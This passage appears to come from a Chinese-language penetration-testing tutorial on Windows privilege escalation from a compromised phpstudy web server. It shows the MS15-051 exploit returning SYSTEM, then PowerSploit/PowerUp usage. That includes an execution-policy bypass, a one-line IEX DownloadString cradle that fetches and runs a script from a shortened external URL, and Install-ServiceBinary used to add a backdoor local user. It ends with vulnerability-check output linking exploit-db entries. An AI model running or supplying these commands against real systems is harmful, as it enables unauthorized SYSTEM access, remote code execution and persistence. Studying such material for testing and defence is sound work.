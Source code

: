 使用 `MS15-051 ` 尝试，成功提权

```bash
C:\phpstudy_pro\WWW\> ms15-051x64.exe whoami
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 4244 created.
==============================
nt authority\system
```



**3.4.3 Privrsc**

https://github.com/PowerShellMafia/PowerSploit

加载脚本

```
Import-Module .\Privesc.psm1
```

获取函数

```
Get-Command -Module Privesc
```

检测全部信息

```
Invoke-AllChecks   # 我的没有

Find-AllVulns     # 检测存在的漏洞
```

命令下执行

```
powershell.exe -exec bypass -Command "&{Import-Moudle .\PowerUp.ps1;Invoke-AllChecks}"
```

远程调用执行

```
powershell.exe -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://dwz.cn/2vkbfP');Invoke-AllChecks}"
```

添加用户

```
Install-ServiceBinary -ServiceName 'Apache_pn' -UserName huanquan -Password 123456
```

eg:

```bash
PS C:\phpstudy_pro\WWW> Find-AllVulns


Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
```